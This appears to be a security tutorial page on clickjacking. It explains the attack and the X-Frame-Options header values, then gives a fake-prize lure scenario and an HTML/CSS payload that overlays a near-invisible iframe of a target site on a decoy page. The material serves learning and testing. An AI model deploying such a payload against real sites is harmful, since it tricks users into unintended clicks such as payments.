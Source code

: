 
### Clickjacking /UI Redress Attack
Step 1: Check for X-Frame-Options for that go to  https://securityheaders.com/

Clickjacking  is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. In simple words, an attacker uses multiple transparent or opaque layers to trick a user into clicking on a button or link on another page when they were intending to click on the top level page. Thus, the attacker is “hijacking” clicks meant for their page and routing them to another page, most likely owned by another application, domain, or both.

There are three possible values for the X-Frame-Options header:
1. DENY : which prevents any domain from framing the content. The DENY setting is recommended unless a specific need has been identified for framing.
2. SAMEORIGIN : which only allows the current site to frame the content.
3. ALLOW-FROM uri : which permits the specified 'uri' to frame this page. (e.g., ALLOW-FROM http://www.example.com ).

### Example :
Website A : A website vulnerable to clickjacking which says that "You won a free iPhone!" so
that the victim gets lured by "Claiming the Prize!"
Website B: It is an attacker controlled website wherein you have the option to "Pay"
This is the exact scenario of how Clickjacking works. Attackers create an attractive website, in our case website A, to lure the victim. Create an iframe and load it in the attacker controlled domain which is website B.
In this manner the attacker manages to fool the victim and make him pay while attracting him for a free prize!
So this is how Clickjacking attack is performed.


Payload :
  
  			<head>

			  <style>

			   	#target_website {

           	     		position:relative;

                 		width:128px;

                 		height:128px;

                 		opacity:0.00001;

                 		z-index:2;

                 		}

			   	#decoy_website {

			     		position:absolute;

			     		width:300px;

			     		height:400px;

			     		z-index:1;

			     		}

			  </style>

			</head>

   			...

			<body>

       		  <div id="decoy_website">

        	 	...decoy web content here...

        	 	</div>

        	 	<iframe id="target_website" src="https://vulnerable-website.com">

        	 	</iframe>

    		</body>




